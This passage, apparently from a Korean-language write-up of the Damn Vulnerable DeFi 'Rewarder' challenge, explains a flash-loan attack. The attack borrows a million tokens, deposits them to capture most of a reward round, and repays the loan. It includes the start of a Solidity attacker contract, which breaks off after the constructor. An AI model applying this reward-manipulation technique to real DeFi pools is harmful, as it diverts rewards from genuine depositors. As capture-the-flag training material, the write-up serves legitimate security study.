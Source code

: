 특정의 값을 비교할 때, state variable을 사용할 것이면 어디서 값이 변할 수 있는지 추적하고 의도하지 않은 루트는 막아야 함. 아니면 비교 시점 직전에 항상 값을 새로 읽어 비교.

withdraw() 실행 시에도 owner 확인이 필요.

# Challenge #5 - Rewarder

### 설명

There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

### 목표

3라운드 시점에 4명의 참가자는 0.01 토큰보다 낮은 리워드를 받아야 함.

총 공급량은 100 토큰보다 커야 함.

attacker의 리워드 토큰은 100 근방

attacker의 유동성 토큰은 0개

### 분석

기존 4명은 각각 100개 토큰씩 예치하여 총 400개

리워드는 총 예치량 대비 개인의 예치량의 백분율로 정해짐.

100만 숫자에 400은 오차 수준.

### 공격

flashloan으로 100만개 토큰을 빌려서 reward pool에 예치. 

리워드 받아서 빌린 토큰 플래시론에 반환하고 리워드는 attacker에 전송하면 끝

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../the-rewarder/RewardToken.sol";
import "../the-rewarder/TheRewarderPool.sol";
import "../the-rewarder/FlashLoanerPool.sol";

contract RewarderAttacker {
    FlashLoanerPool flashLoanPool;
    TheRewarderPool rewarderPool;
    DamnValuableToken liquidityToken;
    RewardToken rewardToken;

    address owner;

    constructor(
        DamnValuableToken _liquidityToken,
        FlashLoanerPool _flashLoanPool,
        TheRewarderPool _rewarderPool,
        RewardToken _rewardToken
    ) {
        owner = msg.sender;
        liquidityToken = _liquidityToken;
```
